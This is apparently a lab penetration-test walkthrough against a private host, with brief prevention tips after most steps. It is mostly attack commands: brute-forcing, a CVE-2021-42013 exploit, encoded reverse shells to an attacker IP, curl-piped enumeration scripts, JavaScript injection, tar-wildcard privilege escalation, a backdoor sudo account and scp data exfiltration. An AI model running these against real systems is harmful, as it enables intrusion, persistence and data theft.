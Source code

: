 ### Nmap Scanning
```bash
target=10.5.20.12
nmap -sSV -p- -Pn -n -O $target -T3
```
#### Prevention
lower the options of scanning to not reveal service information 
use firewall, IDS, DMZ, hide legacy services behind VPN

### Web Content Discovery
```bash
# Directory Enumeration 
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# File Enumeration
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak
```

#### Prevention
disable scanning of directories, and unwanted files

```bash
# httpd.conf
Options -Indexes

# .htaccess 
<FilesMatch "\.(htaccess|htpasswd|env|ini|log|conf)$">
  Order Allow,Deny
  Deny from all
</FilesMatch>
```

### Login Page Bruteforce
```bash
ffuf -u http://10.5.20.12/user/log-in.php -X POST \
-H "Cookie: PHPSESSID=tg6bk1lbboajafumsv03n2t0o8" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "email=FUZZ1&password=FUZZ2" \
-w ./web_users.txt:FUZZ1 -w /usr/share/nmap/nselib/data/passwords.lst:FUZZ2 \
-fc 401
```

#### Prevention
set up tools like fail2ban or iptables recent module, apache mod_evasive 
use modern languages and libraries, good coding practices
timing limit
ideally MFA, CAPTCHA, WAF

### SSH Bruteforce
```bash
hydra -vV -L ./ssh_users.txt -P /usr/share/nmap/nselib/data/passwords.lst ssh://$target
```
#### Prevention
first thing you always do is harden ssh sshd_config on a new machine
ideally use long key with strong ciphers

```
PasswordAuthentication no
PermitRootLogin no
```

### Unsucessful Path Traversal Used to Read /etc/passwd CVE-2021-42013

```bash
wget -O exploit.sh https://www.exploit-db.com/raw/50406
echo $target > targets.txt
bash exploit.sh targets.txt /etc/passwd
```

#### Prevention
use container isolation
non-root user

### RCE Resulting in Reverse Shell CVE-2021-42013
```bash
bash exploit.sh targets.txt /bin/sh id

nc -lvnp 4444
bash exploit.sh targets.txt /bin/sh "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzQ0NDQgMD4mMQ== | base64 -d | bash"
```

#### Prevention
keep up to date your patch management preferably set up automatic updates 

### Shell Upgrade
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
user@remote:~$ ^Z
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
user@local:~$ echo $TERM
user@local:~$ echo $SHELL
user@local:~$ stty raw -echo; fg  #JUST IN CASE, YOUR SHELL IS zsh!!!! OTHERWISE USE THERE COMMANDS SEPARATELY!
user@remote:~$ stty rows ROWS cols COLS

user@remote:~$ export TERM=xterm-256color # the response from previous `echo $TERM`
user@remote:~$ export SHELL=bash # same with `echo $SHELL`
exec /bin/bash # reload bash to apply the TERM variable
```

#### Prevention
use limited shells

### Loud Linux Enumeration - Linpeas
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### Prevention
it is possible to set up traps on the system for example high priledged canary files that track who reads them and executes something that will eg. isolate the user 

### Malicious Javascript Addition
```bash
nano /usr/local/apache2/htdocs/index.php
# add <script src="./js/captcha.js"></script>
echo "<captcha>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js
bash -c 'echo "<base64...>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js'
```

### Cronjob Priviledge Escalation
```bash
nc -lvnp 1337
echo 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzEzMzcgMD4mMQ== | base64 -d | bash' > /usr/local/apache2/htdocs/exploit.sh

chmod +x /usr/local/apache2/htdocs/exploit.sh
echo '' > /usr/local/apache2/htdocs/'--checkpoint=1'
echo '' > /usr/local/apache2/htdocs/'--checkpoint-action=exec=sh exploit.sh'
```

#### Prevention
use proper file permissions, prevent using wildcards, use full paths, low priviledged users

### Loud Linux Enumeration - Linenum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Sudo Priviledge Escalation
```bash
sudo git help config
!/bin/sh
```

#### Prevention
avoid using NOPASSWD, think about all the options before adding command to sudo (gtfo bins)

### Information Exfiltration + Persistence
```bash
mysqldump -u root webapp | gzip > /opt/database.sql.gz
```

```bash
# 1. Create admin user with sudo privileges
useradd -m -s /bin/bash admin
usermod -aG sudo admin
echo 'admin ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/admin
chmod 440 /etc/sudoers.d/admin

# on kali machine
ssh-keygen -t rsa -b 4096 -f /home/kali/.ssh/majestic -N ""

# 2. Set up SSH key for admin (replace with your actual public key)
mkdir -p /home/admin/.ssh
echo '</home/kali/.ssh/majestic.pub>' > /home/admin/.ssh/authorized_keys
chmod 600 /home/admin/.ssh/authorized_keys
chmod 700 /home/admin/.ssh
chown -R admin:admin /home/admin/.ssh

# 3. Confirm that you are able to login
ssh -i /home/kali/.ssh/majestic admin@10.5.20.12

# 3. Exfiltrate data using scp with a provided private key 
scp -i /home/kali/.ssh/majestic admin@10.5.20.12:/opt/database.sql.gz database.sql.gz
```